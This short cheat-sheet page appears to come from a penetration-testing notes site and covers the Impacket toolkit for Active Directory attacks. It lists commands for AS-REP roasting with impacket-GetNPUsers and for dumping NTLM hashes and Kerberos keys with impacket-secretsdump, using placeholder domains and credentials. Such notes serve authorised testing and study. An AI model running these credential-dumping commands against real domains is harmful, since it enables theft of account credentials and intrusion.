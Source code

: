 ```yaml
---
title: Impacket
desc: Provides low level access to the packets. Also, impacket-GetNPUsers is used for ASREPRoasting.
tags: [ActiveDirectory, ActiveRecon, Windows]
alts: [Bloodhound, Kerbrute, Mimikatz]
website:
render_with_liquid: false
---
```


```sh
impacket-netview -h
```

<br />

## impacket-GetNPUsers

Lists users and passwords is not required Kerberos pre auth. Used for ASREPRoasting.

```sh
# Get password (e.g. domain: 'example.local', username: 'admin')
impacket-GetNPUsers -dc-ip 10.0.0.1 -format hashcat example.local/admin
```

<br />

## impacket-secretsdump

Gets all password hashes.

```sh
# Basic
impacket-secretsdump example.local/admin:admin@10.0.0.1

# Only NTLM hashes and Kerberos keys
impacket-secretsdump -just-dc example.local/admin:admin@10.0.0.1

# Only NTLM hashes
impacket-secretsdump -just-dc-ntlm example.local/admin:admin@10.0.0.1
```